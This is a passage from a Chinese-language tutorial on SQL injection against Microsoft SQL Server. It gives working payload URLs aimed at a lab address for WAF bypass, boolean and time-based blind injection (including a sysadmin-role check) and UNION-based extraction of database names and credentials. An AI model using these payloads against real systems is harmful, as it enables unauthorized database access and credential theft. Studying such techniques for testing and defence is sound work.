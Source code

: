 



如果你绕过了declare 那么waf基本没啥用了，这里如果你用hackbar的话记得把加号url编码。

# 0x08 盲注

#### 布尔盲注

其实跟mysql大同小异 无非就是分割字符串比较，但是mssql的盲注套路确实没那么多


```mssql
http://192.168.130.137/1.aspx?id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109

```


#### 时间盲注


```mssql
http://192.168.130.137/1.aspx?id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--

http://192.168.130.137/1.aspx?id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--


```


当然盲注你也可以使用前面提到的declare 灵活运用吧,对于盲注这块感觉mssql不如mysql灵活


# 0x09 联合注入

mssql联合注入我们一般不使用 数字占位，而是null，因为你使用数字占位可能会发生隐式转换


```mssql
http://192.168.130.137/1.aspx?id=1 union select 1,2,3

```



```mssql
http://192.168.130.137/1.aspx?id=1 union select null,name,pass from info

```



当然也可以这样用

```mssql
http://192.168.130.137/1.aspx?id=1 SELECT 1 UNION (select CAST(USER as int))

```
